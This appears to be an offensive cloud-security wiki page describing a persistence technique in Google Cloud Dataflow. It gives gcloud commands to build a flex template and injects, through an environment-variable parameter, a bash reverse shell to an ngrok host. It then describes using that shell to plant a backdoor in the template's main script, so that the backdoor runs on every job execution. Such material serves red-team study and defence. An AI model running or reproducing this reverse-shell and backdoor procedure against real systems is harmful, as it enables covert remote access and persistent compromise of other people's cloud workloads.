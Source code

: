# GCP - Dataflow Persistence

## Dataflow

### Invisible persistence in built container

Following the [**tutorial from the documentation**](https://cloud.google.com/dataflow/docs/guides/templates/using-flex-templates) you can create a new (e.g. python) flex template:

```bash
git clone https://github.com/GoogleCloudPlatform/python-docs-samples.git
cd python-docs-samples/dataflow/flex-templates/getting_started

# Create repository where dockerfiles and code is going to be stored
export REPOSITORY=flex-example-python
gcloud storage buckets create gs://$REPOSITORY

# Create artifact storage
export NAME_ARTIFACT=flex-example-python
gcloud artifacts repositories create $NAME_ARTIFACT \
 --repository-format=docker \
 --location=us-central1
gcloud auth configure-docker us-central1-docker.pkg.dev

# Create template
export NAME_TEMPLATE=flex-template
gcloud dataflow $NAME_TEMPLATE build gs://$REPOSITORY/getting_started-py.json \
 --image-gcr-path "us-central1-docker.pkg.dev/gcp-labs-35jfenjy/$NAME_ARTIFACT/getting-started-python:latest" \
 --sdk-language "PYTHON" \
 --flex-template-base-image "PYTHON3" \
 --metadata-file "metadata.json" \
 --py-path "." \
 --env "FLEX_TEMPLATE_PYTHON_PY_FILE=getting_started.py" \
 --env "FLEX_TEMPLATE_PYTHON_REQUIREMENTS_FILE=requirements.txt" \
 --env "PYTHONWARNINGS=all:0:antigravity.x:0:0" \
 --env "/bin/bash -c 'bash -i >& /dev/tcp/0.tcp.eu.ngrok.io/13355 0>&1' & #%s" \
 --region=us-central1
```

**While it's building, you will get a reverse shell** (you could abuse env variables like in the previous example or other params that sets the Docker file to execute arbitrary things). In this moment, inside the reverse shell, it's possible to **go to the `/template` directory and modify the code of the main python script that will be executed (in our example this is `getting_started.py`)**. Set your backdoor here so everytime the job is executed, it'll execute it.

Then, next time the job is executed, the compromised container built will be run:

```bash
# Run template
gcloud dataflow $NAME_TEMPLATE run testing \
 --template-file-gcs-location="gs://$NAME_ARTIFACT/getting_started-py.json" \
 --parameters=output="gs://$REPOSITORY/out" \
 --region=us-central1
```

